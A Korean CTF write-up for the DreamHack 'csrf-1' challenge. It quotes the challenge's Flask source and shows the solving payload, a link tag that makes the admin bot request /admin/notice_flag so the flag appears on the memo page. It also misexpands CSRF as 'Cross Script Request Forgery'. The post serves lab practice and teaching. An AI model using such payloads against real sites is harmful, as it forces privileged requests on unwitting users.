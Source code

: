 ```yaml
---
title: "(DreamHack) csrf-1"
date: 2021-03-30 05:24:00 -0400
categories: Security CTF
---
```


CSRF(Cross Script Request Forgery)는 클라이언트의 권한을 이용해서 의도하지 않은 요청을 하는 취약점이다.


![image](https://user-images.githubusercontent.com/24788751/112967909-b7c94c00-9186-11eb-9328-f4d1ad066342.png)

flag라는 페이지에 위와 같이 입력을 할 수 있는 폼이 있었다. FLAG를 얻기 위해서는 '/admin/notice_flag'에서 host가 127.0.0.1, userid가 admin이어야 함을 알 수 있다.\
그렇게 되면 memo_text가 전역변수로 사용되어 있기 때문에 해당 변수에 FLAG 값을 저장한 뒤 memo 페이지를 호출하면 memo_text 값이 메모 페이지에 출력된다.


```Python
@app.route('/flag', methods=['GET', 'POST'])
def flag():
    if request.method == 'GET':
        return render_template('flag.html')
    elif request.method == 'POST':
        csrf = request.form.get('csrf', '')
        if not read_url(csrf):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'

def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome('/chromedriver', options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1:8000/')
        driver.add_cookie(cookie)
        driver.get(f'http://127.0.0.1:8000/csrf?csrf={urllib.parse.quote(url)}')
    except:
        driver.quit()
        return False
    driver.quit()
    return True
```

```Python
@app.route('/admin/notice_flag')
def admin_notice_flag():
    global memo_text
    if request.remote_addr != '127.0.0.1':
        return 'Access Denied'
    if request.args.get('userid', '') != 'admin':
        return 'Your not admin'
    memo_text += f'[Notice] flag is {FLAG}\n'
    return 'Ok'

memo_text = ''
@app.route('/memo')
def memo():
    global memo_text
    text = request.args.get('memo', None)
    if text:
        memo_text += text.replace('<', '&lt;') + '\n'
    return render_template('memo.html', memo=memo_text)
```

주어진 텍스트 박스에 아래 스크립트를 입력하였다.
```javascript
<link rel="stylesheet" href="/admin/notice_flag?userid=admin">
```

memo 페이지를 조회해보니 다음과 같으 플래그 값을 얻을 수 있었다.
![image](https://user-images.githubusercontent.com/24788751/112967836-a5e7a900-9186-11eb-9630-f79e843cfe8d.png)